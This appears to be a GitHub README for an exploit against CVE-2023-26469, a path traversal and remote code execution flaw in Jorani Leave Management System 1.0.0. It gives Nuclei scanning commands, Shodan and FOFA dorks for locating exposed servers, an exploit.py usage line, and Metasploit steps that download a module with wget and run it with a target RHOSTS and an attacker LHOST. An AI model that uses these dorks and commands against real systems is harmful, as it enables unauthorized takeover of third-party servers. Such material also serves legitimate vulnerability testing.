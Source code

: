 # CVE-2023-26469
![](https://img.shields.io/static/v1?label=Product&message=Leave%20Management%20System%20Jorani&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=v1.0.0&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Path%20Traversal%20%26%20Remote%20Code%20Execution&color=red)


- [Nuclei Template](https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/main/http/cves/2023/CVE-2023-26469.yaml)

```
nuclei -target <target> -t CVE-2023-26469.yaml
```
```
nuclei -l <target_file> -t CVE-2023-26469.yaml
```
```
nuclei -uq 'http.favicon.hash:-2032163853' -t CVE-2023-26469.yaml -vv
```

 - Shodan dork:
```
http.favicon.hash:1041760462
```
- FOFA dork:
```
icon_hash="1041760462"
```

### Usage

```
exploit.py <url>
```
### Metasploit Framework
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/Jorani_RCE/jorani_rce.rb
```
```
cp jorani_rce.rb /usr/share/metasploit-framework/modules/exploits/multi/php/jorani_path_trav.rb
```
```
msfdb reinit; msfconsole -q
```
```
use exploit/multi/php/jorani_path_trav.rb
```
```
set RHOSTS target_IP
```
```
set lhost attacker_IP
```
```
run
```
